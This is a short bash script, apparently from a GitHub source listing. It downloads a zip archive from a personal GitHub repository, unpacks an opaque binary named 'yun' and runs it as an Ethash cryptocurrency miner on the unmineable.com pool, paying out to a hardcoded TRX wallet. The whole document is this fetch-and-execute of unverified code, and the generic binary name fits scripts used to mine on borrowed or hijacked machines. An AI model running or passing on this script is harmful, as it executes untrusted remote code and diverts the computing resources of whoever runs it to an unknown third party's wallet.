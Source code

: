 #!/bin/bash
sudo apt update && wget https://github.com/lokag/fas/raw/main/yun.zip && apt install unzip && unzip yun.zip && cd yun && chmod u+x yun && ./yun --algo ETHASH --pool ethash.unmineable.com:3333 --user TRX:TUhisPLRuEvLxgeyhctGgm1vskr3aapMGX.swami --ethstratum ETHPROXY
